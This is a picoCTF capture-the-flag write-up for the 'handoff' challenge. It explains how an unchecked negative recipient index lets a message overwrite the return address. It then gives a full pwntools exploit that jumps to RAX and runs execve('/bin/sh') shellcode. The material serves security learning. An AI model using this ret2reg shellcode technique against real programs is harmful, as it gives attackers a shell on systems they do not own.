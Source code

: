 ```yaml
---
title: handoff
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: picoCTF{REDACTED}
---
```

> No description.

by SkrubLawd

---

We are given a binary and the source code for it. The binary is a simple program that allows us to add recipients and send messages to them.

```c
else if (choice == 2) {
    choice = -1;
    puts("Which recipient would you like to send a message to?");
    if (scanf("%d", &choice) != 1) exit(0);
    getchar();

    if (choice >= total_entries) {
        puts("Invalid entry number");
        continue;
    }

    puts("What message would you like to send them?");
    fgets(entries[choice].msg, MSG_LEN, stdin);
}
```

In the `vuln` function, we can see that the program reads a message into the recipient's message buffer using `fgets`. The choice is not sanitized, so we can send a message to the recipient at index `-1`.

Where when we send a message to the recipient at index `-1`, the `RAX` register will be set to the address of the message buffer and after 40 bytes, the `RIP` will be overwritten. We can use [ret2reg](https://ir0nstone.gitbook.io/notes/binexp/stack/reliable-shellcode/ret2reg/using-ret2reg) method where we can jump to the `RAX` register which contains the shellcode.

```py
from pwn import *

binary = './handoff'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 54989)

def add_entry(name):
    r.sendlineafter(b'What option would you like to do?', b'1')
    r.sendlineafter(b'What\'s the new recipient\'s name: ', name)

def add_message(choice, message):
    r.sendlineafter(b'What option would you like to do?', b'2')
    r.sendlineafter(b'Which recipient would you like to send a message to?', choice)
    r.recvuntil(b'What message would you like to send them?')
    print(f'Len: {len(message)}')
    r.sendline(message)

def exit(feedback):
    r.sendlineafter(b'What option would you like to do?', b'3')
    r.sendlineafter(b'Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it:', feedback)

JMP_RAX = 0x000000000040116c

shellcode = asm('''
    mov rax, 0x3b
    mov rdi, 0x0068732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
''')

payload = flat([
    shellcode.ljust(40, b"\00"),
    JMP_RAX,
])
add_message(b'-1', payload)
r.interactive()
```
